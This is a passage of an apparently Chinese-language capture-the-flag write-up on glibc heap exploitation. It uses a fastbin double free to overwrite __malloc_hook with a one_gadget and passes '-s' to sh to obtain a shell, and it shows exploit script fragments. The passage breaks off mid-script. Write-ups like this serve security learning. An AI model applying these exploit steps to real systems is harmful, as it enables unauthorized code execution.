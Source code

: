 在`__malloc_hook`下断点，之后触发malloc，看这时的寄存器状态

![image-20210401201516901](https://static.hack1s.fun/images/2021/04/01/image-20210401201516901.png)

结果这三个gadget的约束条件都不满足；

但是回来看到

![image-20210401203548451](https://static.hack1s.fun/images/2021/04/01/image-20210401203548451.png)

执行时rsp+50的位置是可控的

现在我们最后一小部分的代码是

```bash
malloc(0x58,p64(libc.sym.main_arena+32))

malloc(0x58,"G"*8)
malloc(0x58,"H"*8)

malloc(0x58,b"Y"*48+p64(libc.sym.__malloc_hook-36))                                                                                                                                 
malloc(0x28,b"Z"*20+p64(libc.address+one_gadget))
```

直接执行的话会提示

![image-20210401205651104](https://static.hack1s.fun/images/2021/04/01/image-20210401205651104.png)

就是说把其中`HHHHHHHH:GGGGGGGG`这个当作文件来传入sh了

这个位置正好是调用`sh`的`arg[1]`，解决办法的话，我们可以将其中的`GGGGGGGG`改为`-s\0`

这样就相当于是调用了`sh -s`，

看一下bash的手册

```
If the -s option is present, or if no arguments remain after option processing, then commands are read from the standard input.  This option allows the positional parameters to be set when invoking an  interactive  shell  or when reading input through a pipe.
```

所以加上`-s`之后调用时就不会从文件定位而是从stdin输入了；

这样就可以拿到一个shell权限

最终执行的流程

```python
one_gadget = 0xe1fa1
#  one_gadget = 0xe1fad
#  one_gadget = 0xc4dbf


# Request two 0x50-sized chunks.
chunk_A = malloc(0x48, "A"*8)
chunk_B = malloc(0x48, "B"*8)

# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

malloc(0x48,p64(0x61))
malloc(0x48,"C"*8)
malloc(0x48,"D"*8)

chunk_C = malloc(0x58,"E"*8)
chunk_D = malloc(0x58,"F"*8)

```